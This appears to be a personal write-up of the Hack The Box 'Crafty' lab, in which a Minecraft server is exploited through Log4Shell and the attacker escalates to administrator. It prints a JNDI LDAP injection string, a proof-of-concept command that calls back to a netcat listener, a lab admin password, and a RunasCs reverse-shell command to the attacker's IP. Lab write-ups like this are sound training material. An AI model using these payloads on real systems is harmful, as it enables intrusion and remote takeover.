







HTB: Crafty
Connected to minecraft server as we can see its running minecraft 1.16.5 through our nmap scan.
Looking at minecraft exploits we have a CVE from 2021 CVE-2021–44228 which essentially allows players on a server to have RCE
I downloaded Tclient for linux here https://tlauncher.org/en/
Extracted it and ran it with java
java -jar TLauncher-2.895.jar
With tlauncher we can run any version of minecraft, i select the version that we see in the nmap scan and connect to the server via IP

https://github.com/maximofernandezriera/CVE-2021-44228/
I tried using this exploit on github and I was getting callbacks but no matter what payload I used i wouldnt get anything in netcat i tried 20+ payloads
${jndi:ldap://10.10.14.4:1389/Log4jRCE}
https://github.com/kozmer/log4j-shell-poc/
Running this command starts a local ldap server, then we paste the command in minecraft and it reaches out to our ldap server and downloads the exploit which reaches out to nc listener
python3 poc.py --userip 10.10.14.4 --webport 80 --lport 9999

I have no idea what was wrong with this machine but I attempted this exploit like 100 times with different payloads and it wouldnt work. I reinstalled it and it finally worked.

I ran winpeas but didnt get anything interesting. I had seen on the forum that people found creds for the admin user so I kinda knew no exploits would work.
I spent a while looking for creds throughout the entire system before I was given a hint that its a plugin. I went to the minecraft plugins folder and found a playercounter jar file.
Downloaded the file to my machine and downloaded jd-gui so I could look at the file and I found what looked like a password

administrator:s67u84zKq8IXw
We could then use runas to run a reverse shell as admin giving us an admin shell. However, using runas normally wouldnt work as it wouldnt let me enter a password so I downloaded a tool from github called RunAsCS(https://github.com/antonioCoco/RunasCs).

runascs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.12:9997

Overall this was a cool machine, with the attack vector being a minecraft server, however it was super unstable and I had to restart the machine at least 20+ times and it was impossible to do if someone else was working on the machine.